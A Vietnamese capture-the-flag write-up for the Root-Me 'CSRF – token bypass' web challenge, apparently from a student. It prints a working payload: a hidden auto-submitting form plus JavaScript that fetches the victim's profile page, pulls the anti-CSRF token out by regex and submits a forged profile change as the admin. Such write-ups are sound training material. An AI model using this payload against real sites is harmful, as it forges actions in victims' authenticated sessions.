




# WRITE UP

**Challenge:** [CSRF – token bypass](https://www.root-me.org/en/Challenges/Web-Client/CSRF-token-bypass)

Nhìn qua, ta thấy website này có các chức năng tương tự bài CSRF 0 protection. Tuy vậy, ta có thể phát hiện được ở tab Contact, có một thẻ input bị hidden có name là token:

Giá trị token này sẽ thay đổi liên tục khi ta thực hiện submit form:

Điều này sẽ được xác thực bởi server. Từ đó, ta cần trộm token này trước khi submit form như bài CSRF 0 protection. Ta có thể sử dụng Ajax và XMLHttpRequest() để có thể get được value này.

&lt;form id="clickme" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data"&gt;

&lt;input type="text" name="username" value="19522445"&gt;

&lt;input type="checkbox" name="status" checked&gt;

&lt;input id="token" type="hidden" name="token" value=""/&gt;

&lt;button type="submit"&gt;Submit&lt;/button&gt;

&lt;/form&gt;

&lt;script&gt;

var req = new XMLHttpRequest();

req.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);

req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

req.send();

var token = req.responseText.match(/\[abcdef0123456789\]{32}/);

document.getElementById("token").value = token;

document.getElementById("clickme").submit();

&lt;/script&gt;

Submit để gửi contact đến admin và qua tab Private để kiểm tra kết quả. Sau hơn 1 phút, ta nhận được flag:

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
